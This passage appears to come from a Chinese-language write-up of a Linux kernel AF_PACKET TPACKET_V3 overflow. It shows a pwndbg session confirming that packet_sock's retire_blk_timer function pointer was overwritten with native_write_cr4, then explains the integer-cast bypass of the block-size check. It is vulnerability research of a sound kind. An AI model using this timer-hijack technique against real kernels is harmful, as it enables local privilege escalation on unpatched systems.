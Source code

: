 ```c
			       copy);

// 查看溢出覆盖 retire_blk_timer 前后的变化，是否成功覆盖 retire_blk_timer.func
/exp $ cat /tmp/kallsyms | grep skb_copy_bits
ffffffff81796550 T skb_copy_bits
pwndbg> x /100i 0xffffffff81796550
   0xffffffff817965ae <skb_copy_bits+94>:	call   0xffffffff814204c0 <memcpy>			// 下断点，dest地址即位于 packet_sock中
   0xffffffff817965b3 <skb_copy_bits+99>:	sub    ebx,r13d

$ b *0xffffffff817965ae
 ► 0xffffffff817965ae <skb_copy_bits+94>     call   memcpy <0xffffffff814204c0>
        dest: 0xffff88001a608b82 ◂— 0													// 0xffff88001a608800 即为 packet_sock 地址
        src: 0xffff88001cff7610 ◂— 0
        n: 0x4e
$ ni
$ p (((*(struct packet_sock*)0xffff88001a608800)->rx_ring)->prb_bdqc)->retire_blk_timer
pwndbg> p (((*(struct packet_sock*)0xffff88001a608800)->rx_ring)->prb_bdqc)->retire_blk_timer
$2 = {
  entry = {
    next = 0x0 <irq_stack_union>, 
    pprev = 0x0 <irq_stack_union>
  }, 
  expires = 0, 
  function = 0xffffffff81066600 <native_write_cr4>, 									// 正确覆盖了 retire_blk_timer.func
  data = 264176, 
  flags = 1, 
  start_pid = 0, 
  start_site = 0x0 <irq_stack_union>, 
  start_comm = '\000' <repeats 15 times>
}
pwndbg> b *0xffffffff81066600
Breakpoint 2 at 0xffffffff81066600: file ./arch/x86/include/asm/special_insns.h, line 75.
```

---

## 二、漏洞分析

```c
// https://elixir.bootlin.com/linux/v4.10.6/source/net/packet/af_packet.c#L4179
// 该检查可绕过
		if (po->tp_version >= TPACKET_V3 &&
		    (int)(req->tp_block_size -
			  BLK_PLUS_PRIV(req_u->req3.tp_sizeof_priv)) <= 0)
			goto out;
```

**漏洞**：这个检查的目的是确保内存块头部加上每个内存块私有数据的大小不超过内存块自身的大小。保证内存块中有足够的空间，来存放数据包。但是，如果我们设置了`req_u->req3.tp_sizeof_priv`的高位字节，那么将这个赋值表达式转换为整数（int）则会导致一个非常大的正整数值（而不是负值）。如下所示：
